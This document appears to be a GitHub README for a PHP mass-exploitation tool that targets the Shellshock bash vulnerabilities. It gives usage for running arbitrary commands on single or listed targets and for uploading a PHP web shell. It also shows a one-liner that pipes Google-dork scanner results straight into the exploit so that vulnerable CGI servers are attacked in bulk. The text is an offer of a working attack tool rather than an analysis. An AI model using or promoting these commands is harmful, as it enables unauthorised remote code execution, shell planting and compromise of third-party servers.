 - Xpl-SHELLSHOCK-Ch3ck
------
The tool inject a malicious user agent that allows exploring the vulnerabildiade   sheelshock running server-side commands.

```
  # SCRIPT by: [ I N U R L  -  B R A S I L ] - [ By GoogleINURL ]
  # EXPLOIT NAME:  Xpl SHELLSHOCK Ch3ck Tool - (MASS)/ INURL BRASIL
  # AUTOR:         Cleiton Pinheiro / Nick: googleINURL
  # Email:         inurlbr@gmail.com
  # Blog:          http://blog.inurl.com.br
  # Twitter:       https://twitter.com/googleinurl
  # Fanpage:       https://fb.com/InurlBrasil
  # Pastebin       http://pastebin.com/u/Googleinurl
  # GIT:           https://github.com/googleinurl
  # PSS:           http://packetstormsecurity.com/user/googleinurl
  # YOUTUBE:       http://youtube.com/c/INURLBrasil
  # PLUS:          http://google.com/+INURLBrasil
  ```
  
- DESCRIPTION - VULNERABILITY(SHELLSHOCK)
------
```
- CVE-2014-6271, CVE-2014-6277,
- CVE-2014-6278, CVE-2014-7169,
- CVE-2014-7186, CVE-2014-7187
Is a vulnerability in GNU's bash shell that gives attackers access
to run remote commands on a vulnerable system.
```

- DESCRIPTION - TOOL
------
```
The tool inject a malicious user agent that allows exploring the vulnerabildiade
sheelshock running server-side commands.
``` 

-  Dependencies:
------
```
sudo apt-get install php5 php5-cli php5-curl
``

 - Execute:
------
```
  -t : SET TARGET.
  -f : SET FILE TARGETS.
  -c : SET COMMAND.
  -w : SET UPLOAD SHELL PHP.
  Execute:
  php xplSHELLSHOCK.php -t target -c command
  php xplSHELLSHOCK.php -f targets.txt -c command
  SHELL UPLOAD: php xplSHELLSHOCK.php -t target -c command -w
  OUTPUT VULN: SHELLSHOCK_vull.txt
```

 - EXPLOIT MASS USE SCANNER INURLBR
------
```
./inurlbr.php --dork 'inurl:"/cgi-bin/login.sh"' -s out.txt -q 1,6 --command-vul "php xpl.php -t '_TARGETFULL_' -c pwd"
```
More details about inurlbr scanner: https://github.com/googleinurl/SCANNER-INURLBR
